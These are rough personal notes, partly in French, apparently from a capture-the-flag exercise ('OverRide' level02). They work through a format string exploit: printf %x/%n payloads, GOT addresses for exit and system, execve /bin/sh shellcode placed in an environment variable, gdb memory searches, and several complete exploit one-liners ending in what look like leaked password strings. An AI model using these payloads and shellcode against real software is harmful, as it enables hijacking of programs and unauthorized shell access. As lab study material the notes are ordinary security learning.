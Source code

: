 On a le printf qui prend en argument l'entree user via fget

On ecrit dans la memoire a partir du 28eme elements

python -c "print 'AAAA' + 28*'%x.'" | ./level02
ou
AAAA %28$x



adresse + NB + %28$N

'\x\x\x\x' + 'd' + '%28$n'

(gdb) x/s 0x00400d32
0x00 40 0d 32:        "/bin/sh"

0x00 60 12 28 <exit@got.plt>

0x00 60 11 f8 <system@got.plt>

essayer d'overflow avec strcspn ????

python -c 'print "AAAA" + 28*"%x."' | ./level02 

level02@OverRide:~$ objdump -R ./level02 | grep exit
0000000000601228 R_X86_64_JUMP_SLOT  exit
level02@OverRide:~$ objdump -T ./level02 | grep exit
0000000000000000      DF *UND*  0000000000000000  GLIBC_2.2.5 exit
level02@OverRide:~$ objdump -T ./level02 | grep system
0000000000000000      DF *UND*  0000000000000000  GLIBC_2.2.5 system
level02@OverRide:~$ objdump -R ./level02 | grep system
00000000006011f8 R_X86_64_JUMP_SLOT  system


export SHELLCODE="python -c 'print "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"'"
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

find /b 0x7ffffffde000, +21000, 0x48, 0x31
0x7ffff7dd6548
find /b 0x7ffffffde000, +21000, 0x0f, 0x05


echo -e "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" > /tmp/shellcode.bin
export SHELLCODE=$(cat /tmp/shellcode.bin)

env gdb level02


info variable environ

x/gx 

(gdb) x/gx 0x00007fffffffe588

x/50s 0x00007fffffffe7f8

addr shellcode : 0x 7f ff ff ff e8 3c

7fffffffe83c

0x601228 addr exit got.plt

(python -c 'print "\x28\x12\x60" + "\x2a\x12\x60" + "%59084x" + "%28$hn" + "%6204x" + "%29$hn"'; cat) | ./level02

(python -c 'print "\x28\x12\x60" "%140737488349244d" + "%28$hn"'; cat) | ./level02

140737488349244

(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044d" + "%4$hn" + "%31904d" + "%5$hn"'; cat) | ./level5

(python -c 'print "\x28\x12\x60" + "\x3a\x12\x60" + "%5245084d" + "%28$hn" + "%2147483647d" + "%29$hn"'; cat) | ./level02

7fffff
ffe83c

8 388 607 - 6 = 8388601
16 771 132 - 8 388 607 = 8382525

(python -c 'print "\x28\x12\x60" + "\x3e\x12\x60" + "%8388601d" + "%28$hn" + "%8382525d" + "%29$hn"'; cat) | ./level02

 %28$p

Hh74RPnuQ9sa5xrEWGs5nGX
47hHunPRas9QErx5sGWXGn

python -c 'print 100 * "%x ."' | ./level02

Hh74RPnuQ9sa5JAEXWNCq7z7sXGnh5J5

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv


Hh74RPnuQ9sa5JAEXWNCq7z7sXGnh5J5M9KfPg3H
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M

(python -c 'print "AAAA"' ; python -c 'print "unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M\x00"') | ./level02

(python -c 'print "level02"'; python -c 'print "Hh74RPnuQ9sa5JAEXWNCq7z7sXGnh5J5M9KfPg3H\n"') | ./level02


756e505234376848 devient 4868373452506e75
45414a3561733951 devient 51397361354a4145
377a7143574e6758 devient 58674e5743717a37
354a35686e475873 devient 7358476e68354a35
48336750664b394d devient 4d394b6650673348


Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H